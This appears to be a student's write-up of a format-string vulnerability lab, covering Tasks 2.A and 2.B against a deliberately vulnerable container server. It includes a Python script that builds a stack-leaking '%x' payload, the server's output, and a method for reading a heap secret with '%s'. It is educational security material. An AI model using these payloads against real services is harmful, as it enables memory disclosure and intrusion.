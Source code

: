 ## Task 2
### Task 2.A
* How many `%x` format specifiers do you need so you can get the server program to print out the first four bytes of your input?
    * 64. We placed a special 4-byte sequence (`0xccaaddee`) at the start of our string and read from the stack until we encountered this sequence.

#### Code: `build_string_task2a.py`
```python
#!/usr/bin/python3
import sys

N = 1500
NUM_BYTES = 4
NUM_MEM_POSITIONS = 64

content = \
    (0xccaaddee).to_bytes(NUM_BYTES,byteorder='little') + \
    ("%x"*NUM_MEM_POSITIONS).encode('latin-1')

content = content + bytearray(0x0 for i in range(N - len(content)))

with open('badfile', 'wb') as f:
  f.write(content)
```

#### Container shell output
```sh
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd570
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd498
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | �ݪ�
server-10.9.0.5 | 11223344 
server-10.9.0.5 | 1000
...
server-10.9.0.5 | 0 
server-10.9.0.5 | 5dc 
server-10.9.0.5 | ccaaddee The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 2.B
* Can you print out the secret message (stored in the heap area)?
    * Yes. We replace our initial 4-byte sequence with the secret message's address given in the server output (`0x080b4008`) and replace the last format specifier with `%s`, so that `printf` will interpret it as an address for a string.

